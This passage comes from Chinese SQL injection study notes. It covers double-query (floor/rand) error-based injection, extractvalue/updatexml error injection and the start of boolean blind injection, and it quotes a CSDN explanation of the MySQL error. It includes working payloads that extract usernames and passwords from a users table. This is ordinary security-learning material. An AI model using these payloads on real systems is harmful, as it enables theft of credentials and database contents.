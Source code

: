 ```
通过调整limit对users表中用户名和密码内容进行读取
?id=1' union select 1,concat((select username from users limit 0,1),':',(select password from users limit 0,1),floor(rand(14)*2)) c,count(*) from information_schema.columns group by c %23
//冒号起到分隔作用便于分清用户名和密码
```

报错解释：

> 猜测在做这样的统计时，Mysql会建立一张临时表，有group_key和tally两个字段，其中group_key设置了UNIQUE约束，即不能有两行的group_key列的值相同。
>
> 开始时临时表为空。Mysql逐行扫描information_schema.tables表，遇到的第一个分组列（table_schema）值为information_schema，便去查询临时表中是否有group_key为information_schema的行，发现没有，便在临时表中新增一行，group_key为information_schema，tally为1。Mysql继续扫描information_schema.tables表，遇到的第二个分组列（table_schema）的值还是information_schema，去查询临时表中是否有group_key为information_schema的行，发现有，于是将该行的tally增加1。最后统计出了各个模式有多少表。
>
> 在列c报错中，Mysql开始逐行扫描information_schema.columns表，遇到的第一个分组列是floor(rand(14)x2)，计算出其值为1，便去查询临时表中是否有group_key为1的行，发现没有，便在临时表中新增一行，group_key为floor(rand(14)x2)，注意此时又计算了一次结果为0。所以实际插入到临时表的一行group_key为0，tally为1。Mysql继续扫描information_schema.columns表，遇到的第二个分组列还是floor(rand(14)x2)，计算出其值为1（这个1是随机数列的第三个数），便去查询临时表中是否有group_key为1的行，发现没有，便在临时表中新增一行，group_key为floor(rand(14)x2)，此时又计算了一次，结果为0（这个0是随机数列的第四个数），所以尝试向临时表插入一行数据，group_key为0，tally为1。但实际上临时表中已经有一行的group_key为0，而group_key又设置了不可重复的约束，所以报错。
> ————————————————
> 版权声明：本文为CSDN博主「Werneror」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
> 原文链接：https://blog.csdn.net/wn314/article/details/89297560

计算两次rand()时Mysql的一个bug所以其他数据库不能这样注入。但其他数据库含有类似出错函数。

若Double injection没有可查的表则自己构造一个表

```
select count(*) from (select 1 union select 2) temp group by concat(floor(rand(14)*2), (select user()));
```

Mysql 5.1引入的extractvalue()从XML中提取值，第一个参数为XML格式字符串，第二个参数为有效xpath，当第二个参数无效则会报错，可以利用select extractvalue(0, concat(0x5C, (select user())));另外updatexml()函数用来更新XML中特定节点值，第一个参数为XML格式字符串，第二个参数为xpath，第三个格式为要更新的值，同样利用第二个参数无效如select updatexml(1,concat(0x5C,(select user())),1);



### Outfile

https://blog.csdn.net/weixin_54217950/article/details/122971505

需要root权限。。。那还sql注入个啥。。。



### 布尔盲注

对于只有正误两种状态之间切换的情况，使用布尔盲注，一般首先使用length()判断查询结果长度，再使用substr()截取字符穷举出内容。

第一步使用

```
?id=1' and length(database())=1 --+
依次尝试1,2,3...直到长度正确，此时页面显示正常
```
